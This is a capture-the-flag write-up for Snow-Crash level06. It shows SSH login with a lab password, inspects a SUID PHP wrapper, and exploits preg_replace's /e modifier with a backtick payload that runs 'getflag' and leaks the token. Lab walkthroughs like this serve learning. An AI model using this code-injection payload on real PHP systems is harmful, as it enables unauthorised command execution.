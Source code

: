 Login as `level06`.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level06
level06@192.168.1.64's password: viuaaale9huek52boumoomioc
```
A PHP script and an `SUID` executable are located in home directory.
```shell
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ echo 'Hello World!' > /tmp/hello
level06@SnowCrash:~$ ./level06 /tmp/hello
Hello World!
```
`file_get_contents` - reads entire file into a string.

`preg_replace` - usage together with the `/e` modifier was quite common among PHP-based scripts, apps and interfaces until few years ago.

It is possible to execute shell in PHP with backticks.


By using variable variables[¹](https://www.php.net/manual/en/language.variables.variable.php), an error can be generated which will show the flag.
```shell
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/flag06
level06@SnowCrash:~$ ./level06 /tmp/flag06
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
PHP evaluated `getflag` and then tried to print variable. But as it was undefined it show an error.
